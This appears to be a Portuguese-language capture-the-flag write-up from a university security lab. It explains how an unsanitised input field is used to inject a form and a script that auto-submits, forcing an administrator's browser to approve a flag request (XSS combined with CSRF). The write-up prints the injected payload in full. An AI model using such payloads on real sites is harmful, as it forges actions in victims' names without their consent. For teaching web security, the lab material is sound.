 # CTF

No presente desafio, temos como objetivo empregar táticas de XSS e CSRF para obter a flag com aprovação do administrador.
Temos acesso a um website para pedir a flag ao administrador através de um *form* com um campo de entrada e também acesso à página onde o administrador aceita pedidos, embora sem permissões de administrador.

![](img/lab06/ctf-5004-homepage.png)

![](img/lab06/ctf-5004-request-page.png)

![](img/lab06/ctf-5005-admin-page.png)

Começando por analisar o botão "Give the flag" na página de administrador, vemos que tem a seguinte estrutura HTML:

```html
<form method="POST" action="/request/87750fe812746ead3ffae84a25b16e2096f6d188/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
    </div>
</form>
```

Sabendo que o campo de entrada que nos é disponível não sanitiza *input*, é-nos possível utilizar *tags* de HTMl para criar elementos e até código.
Do seguinte modo, criamos um *form* semelhante ao já existente na página de *login*, juntamente com um *script* que o submete quando a página carrega: 

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/ced489dc341740b1903808ced7334f67535699ec/approve" role="form">
    <div class="submit">
        <input id="giveflag" type="submit" value="Give the flag"></input>
    </div>
</form>
<script>
    document.querySelector('form').submit();
</script>
```

![](img/lab06/ctf-5004-flag.png)